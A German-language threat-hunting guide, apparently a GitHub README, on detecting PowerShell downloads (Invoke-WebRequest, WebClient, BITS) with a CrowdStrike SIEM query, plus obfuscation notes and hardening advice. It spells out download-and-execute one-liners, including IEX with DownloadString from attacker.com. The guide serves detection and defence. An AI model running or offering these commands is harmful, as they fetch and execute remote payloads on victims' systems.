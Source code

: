 # Powershell Threat Hunting: Downloads erkennen mit NextGen SIEM

## Warum PowerShell für Angreifer interessant ist

PowerShell ist ein fester Bestandteil moderner Windows-Systeme und bietet durch .NET-Anbindung mächtige Möglichkeiten zur Automatisierung. Diese Eigenschaften machen es auch für Angreifer attraktiv:

- Auf jedem Windows-System vorhanden (kein zusätzlicher Code nötig)
- Direkter Zugriff auf Windows-APIs und Netzwerkressourcen
- Kann Code aus dem Speicher ausführen (*fileless execution*)
- Oft unzureichend überwacht oder eingeschränkt

**Living off the Land**-Taktiken nutzen PowerShell, um Angriffe unauffällig und ohne zusätzliche Tools durchzuführen.

---

## Warum nach PowerShell-Downloads suchen?
PowerShell wird häufig verwendet, um Dateien oder Skripte aus dem Internet zu laden – z. B. zur:

- Nachladung von Schadsoftware 
- Kommunikation mit Command-and-Control-Servern
- Umgehung traditioneller Sicherheitsmaßnahmen 

Einige Gründe für die proaktive Suche nach PowerShell-Downloads:

- Früherkennung von Angriffen im Initial Access oder Execution-Phase
- Erkennung von Fileless Malware

---

## Download via PowerShell

Angreifer nutzen verschiedene Techniken, um Inhalte via PowerShell herunterzuladen. 

### `Invoke-WebRequest` (IWR)
* Funktionalität: Dieses Cmdlet, verfügbar ab PowerShell Version 3, fungiert ähnlich wie `wget` oder `curl` unter Linux. Es sendet HTTP-, HTTPS- oder FTP-Anfragen an eine angegebene URL und kann die Antwort verarbeiten oder, mithilfe des Parameters `-OutFile`, direkt in eine Datei speichern. Es unterstützt komplexere Webinteraktionen wie Authentifizierung und benutzerdefinierte Header.
* Anwendungsfälle & Risiken: Legitim für Web-Scraping, Herunterladen von Ressourcen oder Interaktion mit APIs. Wird von Angreifern häufig zum Herunterladen von Payloads verwendet, oft in Kombination mit `-OutFile`, um die Datei auf der Festplatte zu speichern, oder die Ausgabe wird an `Invoke-Expression` (IEX) weitergeleitet, um eine dateilose Ausführung zu erreichen. `Invoke-WebRequest` kann relativ langsam sein und hat eine potenzielle Abhängigkeit von Internet Explorer-Komponenten.
  
* Sytaxbeispiel: 
```powershell
# Einfacher Download
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "C:\Users\Public\payload.exe"

# Oft in Angriffen gesehen (vereinfacht)
# IWR lädt Datei herunter, dann wird sie ausgeführt
Invoke-WebRequest -Uri "http://attacker.com/payload.exe" -OutFile "$env:TEMP\p.exe"; Start-Process "$env:TEMP\p.exe"
```

###  `System.Net.WebClient` (.DownloadFile /.DownloadString)
* Funktionalität: Nutzt die .NET Framework-Klasse `System.Net.WebClient`. Bietet Methoden wie `DownloadFile`, die eine Datei von einer URL herunterlädt und auf der Festplatte speichert, und `DownloadString`, die den Inhalt einer Ressource direkt als Zeichenkette zurückgibt. `DownloadString` wird häufig in Kombination mit `Invoke-Expression` für die dateilose Ausführung von Skripten verwendet.
* Anwendungsfälle & Risiken: Legitim für programmgesteuerte Dateidownloads in Skripten. Wird von Angreifern intensiv missbraucht, sowohl zum Herunterladen ausführbarer Payloads (`DownloadFile`)  als auch zur dateilosen Ausführung (`DownloadString` + `IEX`). Ist mit Server Core kompatibel.   

* Sytaxbeispiel: 
```powershell
# Download in Datei
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://example.com/payload.exe", "C:\Windows\Temp\payload.exe")

# Download String zur Ausführung
$payload = (New-Object System.Net.WebClient).DownloadString("http://attacker.com/malicious.ps1")
Invoke-Expression $payload

# Oft verkürzt / kombiniert:
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/malicious.ps1')
```

### `Start-BitsTransfer`
* Funktionalität: Verwendet den Background Intelligent Transfer Service (BITS), einen Windows-Dienst, der für asynchrone, gedrosselte und wiederaufnehmbare Dateiübertragungen konzipiert ist. Erfordert, dass der BITS-Dienst ausgeführt wird und das BitsTransfer-Modul importiert ist. Gut geeignet für große Dateien oder Hintergrundübertragungen.

* Anwendungsfälle & Risiken: Legitim für große Dateiübertragungen und Updates. Wird seltener für den initialen Zugriff durch Malware verwendet als IWR/WebClient, kann aber von Angreifern genutzt werden, um größere Werkzeuge, Payloads oder gestohlene Daten zu übertragen. Seine asynchrone Natur könnte zur Tarnung genutzt werden. Erfordert den BITS-Dienst; kann fehlschlagen, wenn der Dienst deaktiviert ist oder der Benutzer (abhängig von der Konfiguration) nicht angemeldet ist. 

* Syntaxbeispiel
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source "[http://example.com/large_payload.zip](http://example.com/large_payload.zip)" -Destination "C:\Temp\large_payload.zip"
# Kann asynchron ausgeführt werden
Start-BitsTransfer -Source "http://..." -Destination "C:\..." -Asynchronous
```

## Verschleierungstechniken (MITRE ATT&CK T1027)
Angreifer verschleiern PowerShell-Befehle und -Skripte, um signaturbasierte Erkennungssysteme zu umgehen und die Analyse zu erschweren. Gängige Methoden umfassen:   

* Kodierung: Verwendung von Base64 (-EncodedCommand, -e, -ec), Hexadezimal oder ASCII zur Darstellung von Befehlen oder Skriptblöcken.   
* Zeichenkettenmanipulation: Verketten ("Down" + "loadString"), Neuanordnen ("{1}{0}" -f 'String','Download') oder Ersetzen von Zeichen innerhalb von Zeichenketten, um bekannte Muster zu zerlegen.   
* Variablenverschleierung: Verwendung unklarer Variablennamen oder das schrittweise Zusammenbauen von Befehlen in Variablen.   
* Escape-Zeichen: Einsatz von Backticks (`) innerhalb von Zeichenketten oder Befehlen, um die Lesbarkeit zu beeinträchtigen.   
* Zufällige Groß-/Kleinschreibung: Mischen von Groß- und Kleinbuchstaben.   
* Leerraum/Kommentare: Einfügen unnötiger Leerzeichen oder Kommentare.   
* Befehlsaliase/Kurznamen: Verwendung von Aliasen wie IEX für Invoke-Expression oder IWR für Invoke-WebRequest.   
* Umgebungsvariablen: Verstecken von Teilen des Codes in Umgebungsvariablen.   
* Typnamenverkürzung: Verwendung von Net.WebClient anstelle von System.Net.WebClient.

Für einige dieser Methoden haben wir eine separate Query erstellt, um gezielt nach Powershell Obfuscation zu suchen. 

## CrowdStrike NextGen SIEM Query
```
#event_simpleName=ProcessRollup2 event_platform=Win
| ImageFileName=/\\(powershell(_ise)?|pwsh)\.exe/i
| CommandLine=/Invoke\-WebRequest|Net\.WebClient|Start\-BitsTransfer/i
| regex("(?<URL>https?://[^'\"]+)", field=CommandLine)
| replace("https://", with="", field=Domain, as=vt_lookup)
| UrlBase:="https://www.virustotal.com/gui/domain/"
| format(format="[Virustotal](%s%s)", field=[UrlBase, vt_lookup], as=DomainLookup)
| table([DomainLookup, URL, ComputerName, UserName, CommandLine], limit=20000)
```

## Powershell Härtung implementieren
* Constrained Language Mode: Wo immer möglich, schränken Sie PowerShell auf den Constrained Language Mode ein. Dies begrenzt den Zugriff auf sensible Cmdlets,.NET-Typen und die Ausführung von beliebigem Code, was viele Angriffstechniken erschwert.   
* Just Enough Administration (JEA): Implementieren Sie JEA, um administrative Berechtigungen auf das absolut notwendige Minimum für bestimmte Rollen und Aufgaben zu beschränken. Dies reduziert die Auswirkungen, falls ein privilegiertes Konto kompromittiert wird.   
* Execution Policy: Setzen Sie die Ausführungsrichtlinie mindestens auf RemoteSigned oder AllSigned. Auch wenn dies keine undurchdringliche Sicherheitsbarriere darstellt, zwingt es Angreifer zur Verwendung von Bypass-Methoden (z.B. -ExecutionPolicy Bypass), deren Verwendung wiederum ein detektierbares Signal sein kann. Erzwingen Sie die Signierung für intern entwickelte Skripte.   
* Application Control: Nutzen Sie Lösungen wie AppLocker, um die Ausführung von PowerShell-Skripten auf autorisierte Benutzer, Systeme oder signierte Skripte zu beschränken. Das vollständige Blockieren von powershell.exe ist aufgrund seiner legitimen Verwendung und der Möglichkeit, die Engine auch ohne die EXE-Datei zu nutzen, oft nicht praktikabel oder effektiv.   
